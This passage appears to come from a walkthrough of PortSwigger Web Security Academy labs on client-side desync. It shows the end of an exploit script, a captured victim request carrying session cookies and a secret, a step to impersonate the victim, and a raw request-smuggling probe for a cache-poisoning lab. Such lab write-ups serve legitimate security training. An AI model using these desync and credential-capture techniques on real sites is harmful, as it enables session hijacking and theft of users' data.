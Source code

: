 ```htm
        credentials: 'include'
    })
})
</script>
```
7. check comment section to see extracted information - change the Fetch content length value until it includes all of the victims credentials:
```
test | 15 December 2022

GET /capture-me HTTP/1.1 Host: 0a22009703bb73a2c21b484400ab00eb.web-security-academy.net Connection: keep-alive sec-ch-ua: sec-ch-ua-mobile: ?0 User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.98 Safari/537.36 sec-ch-ua-platform: Accept: */* Sec-Fetch-Site: cross-site Sec-Fetch-Mode: no-cors Sec-Fetch-Dest: empty Referer: https://exploit-0ae0004c03ab7374c215472001ab0065.exploit-server.net/ Accept-Encoding: gzip, deflate, br Accept-Language: en-US Cookie: victim-fingerprint=DJjriCxtcfLHmjTrBDq730YNd2xUAPPI; secret=lqMu6fnfGeVwefRyznYrI06s20P1S7eW; session=8HVg9nVrLBu6aoyKlEw9zQLRWojb3vlU; _lab_analytics=bxfDqujwSLZuV1BnVlFs7eiaFellGjBCbtCKwZaWen4kRvaUmCcdHIEjDKBbiHB9ULUQpc9OKuEvu1IIDr4PAb7cce8HAsdkOYLTkBk4Ox1O7LYb8tlZqXuqG0meWH2r4gtNvNfNjVQTr3ZZArGoHrwbnDJ58TfwIgcAwx7yKgsfSIAju1MfhxdrEoKY6EGIU6UheyLQ3o6BeO89uLyQD34Jpm7Fharv5il0DDx3FeOIhaTr2qUVdgFR7QVK7y0
```

8. use credentials to impersonate the victim 

# lab solved


# [***2. Lab: Browser cache poisoning via client-side desync](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync/lab-browser-cache-poisoning-via-client-side-desync)

 This lab is vulnerable to client-side desync attacks. You can exploit this to induce a victim's browser to poison its own cache.

To solve the lab:

    Identify a client-side desync vector in Burp, then confirm that you can trigger the desync from a browser.

    Identify a gadget that enables you to trigger an open redirect.

    Combine these to craft an exploit that causes the victim's browser to poison its cache with a malicious resource import that calls alert(document.cookie) from the context of the main lab domain.

Note: When testing your attack in the browser, make sure you clear your cached images and files between each attempt (Settings > Clear browsing data > Cached images and files).

Hint:This lab is a client-side variation of a technique that we covered in a previous request smuggling lab.

1. test for dsync
```
POST /../ HTTP/1.1

Content-Length: 36

GET /hopefully404 HTTP/1.1
Foo: x
```
response
```
HTTP/1.1 500 Internal Server Error
```
